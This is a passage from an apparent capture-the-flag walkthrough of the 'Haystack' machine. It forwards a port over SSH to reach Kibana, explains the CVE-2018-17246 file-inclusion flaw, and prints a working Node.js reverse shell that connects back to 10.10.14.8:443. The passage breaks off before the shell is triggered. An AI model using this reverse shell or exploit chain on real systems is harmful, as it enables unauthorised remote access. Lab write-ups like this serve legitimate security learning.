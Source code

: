 
I’ll use SSH port forwarding to give myself access to this port from my Kali
box. I’ll hit Enter a couple times, then `~C` to get to `ssh>`.

    
    
    [security@haystack ~]$ 
    ssh> -L 5601:localhost:5601
    Forwarding port.
    
    [security@haystack ~]$
    

Now I can go into Firefox and visit `http://127.0.0.1:5601`, and it is a
Kibana instance:

![1572210867392](https://0xdfimages.gitlab.io/img/1572210867392.png)

Kibana is a data visualization and query tool, popular with information
security operations.

### CVE-2018-17246

#### Background

There’s a public vulnerability in Kibana,
[CVE-2018-17246](https://www.cyberark.com/threat-research-blog/execute-this-i-
know-you-have-it/) (that links is a good writeup). There’s also a POC on
twitter:

> A little bit sensationalist, as the flaw executes the destination of the LFI
> as JS, it doesn't dump /etc/passwd to the browser as the above might lead
> you to think, instead it dumps it to the kibana log. At least this is what i
> have seen in testing
>
> — Adam (@AdamTheAnalyst) [December 17,
> 2018](https://twitter.com/AdamTheAnalyst/status/1074726937396948993?ref_src=twsrc%5Etfw)

The vulnerability is a LFI that will run an included Javascript file. [This
GitHub](https://github.com/mpgn/CVE-2018-17246) also has good details.

#### Shell

I’ll need to create a reverse shell on Haystack. I’ll use the one from the
GitHub link above:

    
    
    [security@haystack shm]$ cat 0xdf.js 
    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(443, "10.10.14.8", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();
    